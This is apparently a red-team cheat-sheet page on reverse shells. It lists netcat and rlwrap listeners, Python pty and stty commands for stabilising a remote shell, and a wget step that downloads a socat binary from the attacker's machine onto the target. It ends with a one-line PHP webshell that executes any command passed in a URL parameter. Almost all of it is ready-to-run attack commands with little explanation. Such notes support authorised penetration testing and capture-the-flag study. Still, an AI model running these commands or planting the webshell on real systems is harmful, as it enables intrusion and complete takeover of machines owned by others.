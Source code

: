 ```yaml
---
category:
  - redteam
---
```

!!! info "Info"
	"Reverse shells _allow attackers to open ports to the target machines, forcing communication and_ enabling a complete takeover of the target machine." -[Imperva](https://www.imperva.com/learn/application-security/reverse-shell/)
## Stabilization
Basic: `python3 -c 'import pty;pty.spawn("/bin/bash")'`
### TTY Size
In second terminal window, get rows & columns with `stty -a`, then set them in the remote shell with `stty {rows|cols} <number>`

### Netcat
Rlwrap: `rlwrap nc -lvnp <port>`
If Python is available:
```bash
sudo nc -lvnp 1234  # listen for connections on port 1234
python -c 'import pty;pty.spawn("/bin/bash")'   # start bash
export TERM=xterm
[Ctrl+Z]    # background the session
stty raw -echo; fg     # Stabilze and foreground the shell
```
[Netcat for Windows](https://github.com/int0x33/nc.exe)
### Socat
If Python is available:
```
# Start Python webserver on local machine
sudo python3 -m http.server 80
# Get a netcat shell
sudo nc -lvnp <port> 
# Download socat compiled binary to target machine
wget \<local IP>/socat -O /tmp/socat
```

## Basic Webshell
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
See `/usr/share/webshells` on Kali

- [BlackArch Webshells](https://github.com/BlackArch/webshells)
